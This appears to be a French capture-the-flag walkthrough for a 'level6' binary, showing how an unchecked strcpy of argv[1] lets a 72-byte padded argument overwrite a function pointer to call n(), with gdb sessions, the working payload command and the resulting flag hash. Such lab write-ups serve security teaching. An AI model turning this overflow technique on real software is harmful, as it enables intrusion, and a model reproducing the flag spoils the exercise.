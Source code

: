 # уровень 6

- La faille est qu'il n'y pas de controle de la longueur de argv[1] dans le strcpy. Nous pouvons donc ecrire dans le reste de la memoire.
- L'idée ici est de faire en sorte que la fonction n soit appeler par le programme. Grace à la variable f.

<pre>
$> gdb ./level6

(gdb) disass main
Dump of assembler code for function main:
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
<strong>   0x080484d0 <+84>:    call   *%eax</strong>
   0x080484d2 <+86>:    leave 
   0x080484d3 <+87>:    ret
End of assembler dump.
</pre>

- Nous placons un breakpoint sur le call de f pour faire des tests et trouver les bon offset.

<pre>
(gdb) b *0x080484d0
Breakpoint 1 at 0x80484d0
(gdb) r $(python -c "print('A' * 72 + 'BBBB')")

Starting program: /home/user/level6/level6 $(python -c "print('A' * 72 + 'BBBB')")

Breakpoint 1, 0x080484d0 in main ()
<strong>(gdb) x/s $eax
0x42424242:      Address 0x42424242 out of bounds
</strong>
</pre>

- Bingo nous arrivons bien à ecrire sur la memoire. Il ne nous reste plus qu'à placer l'adresse de la fonction n().

<pre>
$> nm level6

...
08048468 T m
0804847c T main
         U malloc@@GLIBC_2.0
<strong>08048454 T n</strong>
...
</pre>

- Ce qui nous donnes en little indian: 54 84 04 08

<pre>
$> ./level6 $(python -c "print('A' * 72 + '\x54\x84\x04\x08')")

f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

</pre>
